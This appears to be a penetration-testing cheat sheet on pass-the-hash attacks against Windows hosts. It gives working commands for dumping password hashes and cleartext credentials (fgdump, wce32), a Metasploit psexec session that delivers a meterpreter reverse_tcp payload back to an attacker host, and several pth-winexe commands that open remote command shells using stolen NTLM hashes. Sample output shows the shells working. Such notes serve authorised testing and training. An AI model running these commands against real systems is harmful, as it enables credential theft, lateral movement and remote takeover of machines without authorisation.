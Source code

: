 ## Passing the hash with impacket

- https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/
- https://www.coresecurity.com/corelabs-research-special/open-source-tools/pass-hash-toolkit
- https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

Cracking password hashes can be very time-consuming and it is often not feasible.
A different approach of making use of dumped hashes without cracking them has been around since 1997.
The technique, known as `Pass-The-Hash` (PTH), allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a cleartext password.
This is possible because NTLM/LM password hashes are not salted and remain static between sessions and computers whose combination of username and password is the same.

A list of tools included in Kali Linux to abuse LM/NTLM hashes:

- `pth-net` - executes net commands (net user, net share) on remote hosts
- `pth-rpcclient` - opens an interactive session to execute RPC commands
- `pth-smbclient` - browses available shares on remote computers
- `pth-winexe` - executes interactively a command on remote computers
- `pth-wmic` - executes WMI queries on remote computers
- `pth-wmis` - executes a command using WMI on remote computers


Dump password hashes:

```bash
fgdump.exe
```


Dump NTLM logon hashes:

```bash
wce32.exe -l
```

Dump cleartext password from digest auth package:

```bash
wce32.exe -w
wce does not run on Windows 2000
```


If NTLM is only available  (for example its a 15+ character password or through GPO they specify  NTLM response only), simply replace the ****NOPASSWORD**** with 32 0’s  for example:

```text
******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c
```

Would be replaced by:

```text
00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
```

Connect to a different victim using PSExec and just the hash values.

```bash
root@kali:~# msfconsole
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
msf exploit(psexec) > set LPORT 443
msf exploit(psexec) > set RHOST 192.168.57.131
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```

We begin by first setting an environment variable called SMBHASH, containing the password hash we would like to use for authentication:

```bash
root@kali:~# export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

We can then use the pth-winexe tool to authenticate using the password hash and gain a remote command prompt on the target machine:

```bash
root@kali:~# pth-winexe -U administrator% //10.11.01.76 cmd
Password for [WORKGROUP\administrator]:
HASH PASS: Substituting user supplied NTLM HASH...
HASH PASS: Substituting user supplied NTLM HASH...
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.
All rights reserved.dw
C:\Windows\system32>
```

```bash
export SMBHASH=96fe1fc02d73a84c463db170b09126f1:be6ec26d0d71a533e14b65ce755d7bce
pth-winexe -U IUSR_SRV2 //10.xx.xx.31 cmd
```

When password is prompted, enter any value, only then SMBHASH value is considered, else authentication will.
SMBMAP can also be used for passing the hash.

```bash
export SMBHASH=6458e959995a134d79c59b51a1b6bf39
pth-winexe -U administrator% //10.10.10.10 ipconfig
```
